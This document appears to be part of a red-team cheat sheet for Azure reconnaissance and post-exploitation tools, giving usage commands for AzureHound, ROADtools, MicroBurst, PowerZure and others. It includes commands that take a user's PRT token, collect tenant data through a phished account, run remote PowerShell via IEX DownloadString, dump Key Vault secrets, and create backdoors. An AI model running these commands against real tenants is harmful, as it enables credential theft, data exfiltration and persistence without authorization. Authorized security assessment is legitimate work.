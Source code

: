 ## Azure Recon Tools

* [**BloodHoundAD/AzureHound**](https://github.com/BloodHoundAD/AzureHound) - Azure Data Exporter for BloodHound
    ```powershell
    # First, retrieve a refresh token (-r) if username/password isn't supported.
    # An access token (-j) isn't recommended because it can expire before the end of azurehound execution
    Install-Module AADInternals -Scope CurrentUser
    Import-Module AADInternals
    $rt = (Get-AADIntAccessToken -ClientId "1950a258-227b-4e31-a9cf-717495945fc2" -Resource "https://graph.microsoft.com" -PRTToken (Get-AADIntUserPRTToken) -IncludeRefreshToken $true)[1]
    
    # Second, launch azurehound collector
    ./azurehound -r "0.AXMAMe..." list --tenant "753a0bc5-..." -o output.json

    ## Connects on your Azure account using the refresh token provided and the tenant of the account
    ## and collects every possible objects in contoso.microsoft.com. Results are stored in json
    ./azurehound -r $rt --tenant "contoso.onmicrosoft.com" list -o azurehound-scan.json --tenant "contoso.microsoft.com"
    ## Sets configuration file with connection variables and other things (not required)
    ./azurehound configure
    ## Collects every objects on all accessible tenants using username/password and prints it to stdout
    ./azurehound -u "MattNelson@contoso.onmicrosoft.com" -p "MyVerySecurePassword123" --tenant "contoso.onmicrosoft.com" list
    ## Collects every objects on a specific tenant using username/password and stores it in json
    ./azurehound -u "phisheduser@contoso.onmicrosoft.com" -p "Password1" list -o initial-scan.json --tenant "contoso.onmicrosoft.com"
    ## Collects every objects on all tenants accessible using Service Principal secret
    ./azurehound -a "6b5adee8-..." -s "<secret>" --tenant "contoso.onmicrosoft.com" list
    ## Collects AzureAD info (all except AzureRM info) using JWT access token
    ./azurehound -j "ey..." --tenant "contoso.onmicrosoft.com" list az-ad
    ## Collects every users using refresh token
    ./azurehound -r "0.ARwA6Wg..." --tenant "contoso.onmicrosoft.com" list users

    # List of collections
    az-ad: Collect all information available at the AzureAD tenant level. In most tenants, all users have the ability to read all this information by default.
    az-rm: Collect all information available at the AzureRM subscription level. Users do not by default have read access to any of this information.

    apps: Collects AzureAD application registration objects.
    devices: Collects AzureAD devices regardless of join type.
    groups: Collects AzureAD security-enabled groups, both role eligible and non role eligible.
    key-vaults: Collects AzureRM key vaults.
    management-groups: Collects AzureRM management group objects
    resource-groups: Collects AzureRM resource group objects
    roles: Collects AzureAD admin role objects
    service-principals: Collects AzureAD service principals
    subscriptions: Collevts AzureRM subscriptions
    tenants: Collevts AzureAD tenant objects
    users: Collects AzureAD users, including any guest users in the target tenant.
    virtual-machines: Collects AzureRM virtual machines

    # GUI access
    bolt://localhost:7687
    Username: neo4j
    Password: BloodHound

    # Custom Queries : https://hausec.com/2020/11/23/azurehound-cypher-cheatsheet/
    # Cypher query examples:
    MATCH p = (n)-[r]->(g:AZKeyVault) RETURN p
    MATCH (n) WHERE n.azname IS NOT NULL AND n.azname <> "" AND n.name IS NULL SET n.name = n.azname
    ```
* [**BloodHoundAD/BARK**](https://github.com/BloodHoundAD/BARK) - BloodHound Attack Research Kit
    ```ps1
    . .\BARK.ps1
    $MyRefreshTokenRequest = Get-AZRefreshTokenWithUsernamePassword -username "user@contoso.onmicrosoft.com" -password "MyVeryCoolPassword" -TenantID "contoso.onmicrosoft.com"
    $MyMSGraphToken = Get-MSGraphTokenWithRefreshToken -RefreshToken $MyRefreshTokenRequest.refresh_token -TenantID "contoso.onmicrosoft.com"
    $MyAADUsers = Get-AllAzureADUsers -Token $MyMSGraphToken.access_token -ShowProgress
    ```
* [**ROADTool**](https://github.com/dirkjanm/ROADtools) - The Azure AD exploration framework.
    ```powershell
    pipenv shell
    roadrecon auth [-h] [-u USERNAME] [-p PASSWORD] [-t TENANT] [-c CLIENT] [--as-app] [--device-code] [--access-token ACCESS_TOKEN] [--refresh-token REFRESH_TOKEN] [-f TOKENFILE] [--tokens-stdout]
    roadrecon gather [-h] [-d DATABASE] [-f TOKENFILE] [--tokens-stdin] [--mfa]
    roadrecon auth -u test@<TENANT NAME>.onmicrosoft.com -p <PASSWORD>
    roadrecon gather
    roadrecon gui
    ```
* [**Azure/StormSpotter**](https://github.com/Azure/Stormspotter) - Azure Red Team tool for graphing Azure and Azure Active Directory objects
    ```powershell
    # session 1 - backend
    pipenv shell
    python ssbackend.pyz

    # session 2 - frontend
    cd C:\Tools\stormspotter\frontend\dist\spa\
    quasar.cmd serve -p 9091 --history

    # session 3 - collector
    pipenv shell
    az login -u test@<TENANT NAME>.onmicrosoft.com -p <PASSWORD>
    python C:\Tools\stormspotter\stormcollector\sscollector.pyz cli

    # Web access on http://localhost:9091
    Username: neo4j
    Password: BloodHound
    Server: bolt://localhost:7687
    ```
* [**Microsoft Portals**](https://msportals.io/) - Microsoft Administrator Sites
* [**nccgroup/Azucar**](https://github.com/nccgroup/azucar.git) : Azucar automatically gathers a variety of configuration data and analyses all data relating to a particular subscription in order to determine security risks.
    ```powershell
    # You should use an account with at least read-permission on the assets you want to access
    PS> Get-ChildItem -Recurse c:\Azucar_V10 | Unblock-File
    PS> .\Azucar.ps1 -AuthMode UseCachedCredentials -Verbose -WriteLog -Debug -ExportTo PRINT
    PS> .\Azucar.ps1 -ExportTo CSV,JSON,XML,EXCEL -AuthMode Certificate_Credentials -Certificate C:\AzucarTest\server.pfx -ApplicationId 00000000-0000-0000-0000-000000000000 -TenantID 00000000-0000-0000-0000-000000000000
    PS> .\Azucar.ps1 -ExportTo CSV,JSON,XML,EXCEL -AuthMode Certificate_Credentials -Certificate C:\AzucarTest\server.pfx -CertFilePassword MySuperP@ssw0rd! -ApplicationId 00000000-0000-0000-0000-000000000000 -TenantID 00000000-0000-0000-0000-000000000000
    # resolve the TenantID for an specific username
    PS> .\Azucar.ps1 -ResolveTenantUserName user@company.com
    ```
* [**FSecureLABS/Azurite Explorer**](https://github.com/FSecureLABS/Azurite) and **Azurite Visualizer** : Enumeration and reconnaissance activities in the Microsoft Azure Cloud.
    ```powershell
    git submodule init
    git submodule update
    PS> Import-Module AzureRM
    PS> Import-Module AzuriteExplorer.ps1
    PS> Review-AzureRmSubscription
    PS> Review-CustomAzureRmSubscription
    ```
* [**NetSPI/MicroBurst**](https://github.com/NetSPI/MicroBurst) - MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping
    ```powershell
    PS C:> Import-Module .\MicroBurst.psm1
    PS C:> Import-Module .\Get-AzureDomainInfo.ps1
    PS C:> Get-AzureDomainInfo -folder MicroBurst -Verbose
    ```
* [**cyberark/SkyArk**](https://github.com/cyberark/SkyArk) - Discover the most privileged users in the scanned Azure environment - including the Azure Shadow Admins.   
    Require:
    - Read-Only permissions over Azure Directory (Tenant)
    - Read-Only permissions over Subscription
    - Require AZ and AzureAD module or administrator right

    ```powershell
    $ powershell -ExecutionPolicy Bypass -NoProfile
    PS C> Import-Module .\SkyArk.ps1 -force
    PS C> Start-AzureStealth
    PS C> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cyberark/SkyArk/master/AzureStealth/AzureStealth.ps1')  
    PS C> Scan-AzureAdmins  
* [**hausec/PowerZure**](https://github.com/hausec/PowerZure) - PowerShell framework to assess Azure security
    ```powershell
    # Require az module !
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]

    # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```
* [**dafthack/GraphRunner**](https://github.com/dafthack/GraphRunner) - A Post-exploitation Toolset for Interacting with the Microsoft Graph API